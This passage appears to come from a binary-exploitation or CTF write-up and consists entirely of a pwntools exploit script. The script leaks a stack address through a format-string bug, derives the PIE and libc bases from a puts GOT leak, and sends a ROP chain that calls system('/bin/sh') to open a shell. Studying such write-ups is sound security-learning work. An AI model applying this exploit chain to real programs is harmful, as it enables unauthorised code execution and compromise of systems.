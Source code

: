    ```
   # Leak 15th address from stack (main+44)
   io.sendlineafter(b':', '%{}$p'.format(15), 16)
   io.recvuntil(b'Hello ')  # Address will follow
   leaked_addr = int(io.recvline(), 16)
   info("leaked_address: %#x", leaked_addr)
   
   # Now calculate the PIEBASE
   elf.address = leaked_addr - 0x1224
   info("piebase: %#x", elf.address)
   
   # Update pop_rdi gadget
   pop_rdi = elf.address + pop_rdi_offset
   
   # Payload to leak libc function
   payload = flat({
       offset: [
           pop_rdi,  # Pop got.puts into RDI
           elf.got.puts,
           elf.plt.puts,  # Call puts() to leak the got.puts address
           elf.symbols.vuln  # Return to vuln (to overflow buffer with another payload)
       ]
   })
   
   # Send the payload
   io.sendlineafter(b':P', payload)
   
   io.recvlines(2)  # Blank line
   
   # Retrieve got.puts address
   got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))
   info("leaked got_puts: %#x", got_puts)
   
   # Subtract puts offset to get libc base
   libc.address = got_puts - libc.symbols.puts
   info("libc_base: %#x", libc.address)
   
   # Payload to get shell: system('/bin/sh')
   payload = flat({
       offset: [
           pop_rdi,
           next(libc.search(b'/bin/sh\x00')),
           libc.symbols.system
       ]
   })
   
   # Send the payload
   io.sendline(payload)
   
   # Got Shell?
   io.interactive()
   ```

